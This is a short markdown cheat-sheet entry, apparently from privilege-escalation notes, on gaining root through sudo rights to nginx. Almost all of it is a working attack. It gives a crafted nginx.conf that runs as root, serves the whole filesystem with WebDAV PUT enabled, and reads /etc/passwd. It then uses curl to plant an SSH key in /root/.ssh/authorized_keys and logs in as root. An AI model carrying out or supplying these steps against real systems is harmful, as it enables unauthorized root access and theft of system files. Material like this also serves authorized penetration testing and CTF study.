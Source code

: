 # Nginx
## Sudo
If the binary is allowed to run as superuser by sudo, the nginx.conf file can be configured to run as root from the '/' directory.
1. Check the Example Configuration File
```bash
cat /etc/nginx/nginx.conf
```
2. Copy the File 
```bash
cp /etc/nginx/nginx.conf /tmp
```
3. Alter the File
```file
user root;
worker_processes auto;
pid /run/nginx2.pid;
include /etc/nginx/modules-enabled/*.conf;
events {
    worker_connections 768;
}
http {
    server {
        listen 1337;
        location / {
            root /;
            autoindex on;
            dav_methods PUT;
        }
    }
}
```
4. Run Nginx as Sudo
```bash
sudo nginx -c /tmp/nginx.conf
```
5. Test with 'Curl'
```bash
curl localhost:1337/etc/passwd
```
6. Create an SSH Key
```bash
ssh-keygen
```
7. Upload SSH Key to Target
```bash
curl TARGET_IP:PORT/root/.ssh/authorized_keys --upload-file KEY.pub
```
8. Login via SSH Key
```bash
ssh -i KEY root@TARGET_IP
```
>[!NOTE]
> Steps 7 and 8 only work if the Target allows root ssh login with a key. 
